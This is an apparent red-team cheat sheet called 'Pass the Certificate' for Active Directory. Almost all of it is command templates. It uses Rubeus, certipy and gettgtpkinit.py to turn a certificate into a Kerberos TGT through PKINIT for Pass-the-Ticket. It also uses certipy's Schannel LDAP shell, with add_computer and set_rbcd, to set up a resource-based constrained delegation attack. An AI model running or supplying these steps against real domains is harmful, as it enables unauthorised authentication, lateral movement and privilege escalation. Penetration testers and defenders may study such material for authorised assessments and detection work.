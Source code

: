 # Pass the Certificate

## Tools: gettgtpkinit.py , Rubeus , certipy

# PKINIT

#### 1) Rubeus

 - Rubeus.exe asktgt /user:"USERNAME" /certificate:"PFX_FILE" [/password:"CERTIFICATE_PASSWORD] /domain:"FQDN_DOMAIN" /dc:"DC" /show

#### 2) certipy

 - certipy auth -pfx CRT_FILE -dc-ip DC_IP

#### 3) gettgtpkinit.py

 - gettgtpkinit.py -cert-pfx "PFX_FILE" [cert-pfx-pass "CERT_PASSWORD"] "FQDN_DOMAIN/USER "TGT_CCACHE_FILE"

### These 3 techniques can be performed for a Pass-the-Ticket attack

# Schannel

#### 1) certipy

 - certipy auth -pfx CRT_FILE -ldap-shell

 - add_computer

 - set_rbcd

### With this technique, we can now perform an RBCD attack

